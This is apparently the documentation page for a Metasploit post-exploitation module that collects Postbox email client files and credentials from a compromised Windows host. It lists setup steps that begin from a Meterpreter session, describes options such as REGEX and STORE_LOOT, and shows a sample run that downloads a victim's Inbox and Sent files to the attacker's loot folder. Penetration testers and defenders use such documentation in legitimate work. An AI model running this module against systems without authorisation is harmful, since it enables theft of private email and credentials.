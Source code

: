 ## Module Description

This post-exploitation module gathers artifacts found on Postbox related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/postbox
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifcats/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by defalt and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
### Default Output
  ```
msf6 post(windows/gather/credentials/postbox) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Postbox's parent folder found
[*] Postbox's Inbox file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\PostboxApp\Profiles\b6yf1u6g.default\ImapMail\outlook.office365.com\INBOX
[*] Postbox Inbox downloaded
[+] File saved to:  /root/.msf4/loot/20210513064136_default_192.168.56.106_postboxINBOX_465924.bin

[+] To:Subject:Date:MIME-Version:Reply-To:List-ID:X-CSA-Complaints:
[+] To:<*************@outlook.jp>
[+] To:"NoReplyOneDrive"<reply-fed017787564057e-25_HTML-166935770-7231722-937213@mail.onedrive.com>
[+] To:Subject:Date:MIME-Version:Reply-To:List-ID:X-CSA-Complaints:
[+] From:"MicrosoftOneDrive"<email@mail.onedrive.com>
[+] From:To:Subject:Date:MIME-Version:Reply-To:List-ID:X-CSA-Complaints:

[+] File with credentials saved:  /root/.msf4/loot/20210513064136_default_192.168.56.106_EXTRACTIONINBOX_835546.bin
[*] Postbox's parent folder found
[*] Postbox's Sent* file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\PostboxApp\Profiles\b6yf1u6g.default\ImapMail\outlook.office365.com\Sent-1.msf
[*] Postbox Sent-1.msf downloaded
[+] File saved to:  /root/.msf4/loot/20210513064137_default_192.168.56.106_postboxSent1.ms_354629.msf

  ```